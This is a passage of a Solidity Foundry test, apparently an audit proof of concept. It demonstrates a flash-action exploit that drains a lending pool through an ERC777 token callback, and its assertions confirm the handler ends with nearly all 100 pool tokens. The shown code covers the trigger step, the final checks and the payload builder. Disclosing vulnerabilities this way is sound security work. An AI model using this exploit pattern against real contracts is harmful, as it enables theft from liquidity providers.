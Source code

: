             // Fetch balances from the action handler (who will receive all the borrowed funds from the flash action)
            // as well as the pool. 
            // Action handler balance initially has 1 token of token777 (given initially on deployment)
            assertEq(mockERC20.token777.balanceOf(address(actionHandler)), 1 * 10 ** 18);
            uint256 liquidityPoolBalanceBefore =  mockERC20.token777.balanceOf(address(pool));
            uint256 actionHandlerBalanceBefore =  mockERC20.token777.balanceOf(address(actionHandler));
            // Pool initially has 100 tokens of token777 (deposited by the liquidity provider in setUp())
            assertEq(mockERC20.token777.balanceOf(address(pool)), 100 * 10 ** 18);
    
            //----------            STEP 4            ----------//
            // Step 4. Trigger the flash action.
            vm.startPrank(users.accountOwner);
    
            pool.flashAction(100 ether , address(proxyAccount), address(actionHandler), callData, emptyBytes3);
            vm.stopPrank();
     
            
            //----------       FINAL ASSERTIONS       ----------//
    
            // Action handler (who is the receiver of the borrowed funds in the flash action) has succesfully obtained 100 tokens from 
            //the pool, and in the end it has nearly 101 tokens (initially it had 1 token, plus the 100 tokens stolen 
            // from the pool minus the small amount required to pay for the bid)
            assertGt(mockERC20.token777.balanceOf(address(actionHandler)), 100 * 10 ** 18);
    
            // On the other hand, pool has lost nearly all of its balance, only remaining the small amount paid from the 
            // action handler in order to bid
            assertLt(mockERC20.token777.balanceOf(address(pool)), 0.05 * 10 ** 18);
        
        } 
    
        /// @notice Internal function to build the `actionData` payload needed to execute the `flashActionByCreditor()` 
        /// callback when requesting a flash action
        function _buildActionData() internal returns(bytes memory) {
            ActionData memory emptyActionData;
            address[] memory to;
            bytes[] memory data;
            bytes memory actionTargetData = abi.encode(emptyActionData, to, data);
            IPermit2.PermitBatchTransferFrom memory permit;
            bytes memory signature;
            return abi.encode(emptyActionData, emptyActionData, permit, signature, actionTargetData);
        }
    }
    
    /// @notice ERC777Recipient interface
    interface IERC777Recipient {
       
        function tokensReceived(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external;
    }
    